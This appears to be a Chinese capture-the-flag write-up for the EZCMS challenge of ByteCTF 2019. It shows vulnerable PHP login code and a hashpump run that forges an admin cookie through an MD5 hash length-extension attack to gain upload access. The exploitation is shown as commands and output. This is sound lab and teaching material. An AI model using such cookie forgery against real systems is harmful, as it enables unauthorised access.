 # ByteCTF 2019

## 0x01 EZCMS

看题名就知道是个代码审计题，扫一下目录发现``www.zip``拿到源码

首先是hash扩展攻击，拿到上传权限

```php
function login(){

    $secret = "********";
    setcookie("hash", md5($secret."adminadmin"));
    return 1;

}

function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```

这里构造

```
root@EDI:~/HashPump# hashpump
Input Signature: 52107b08c0f3342d2153ae1d68e6262c
Input Data: admin
Input Key Length: 13
Input Data to Add: eki
bcbbe3284dc03be00f59d52a7633aeb5
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00eki
```

然后上传的时候把``bcbbe3284dc03be00f59d52a7633aeb5``塞到cookie就可了
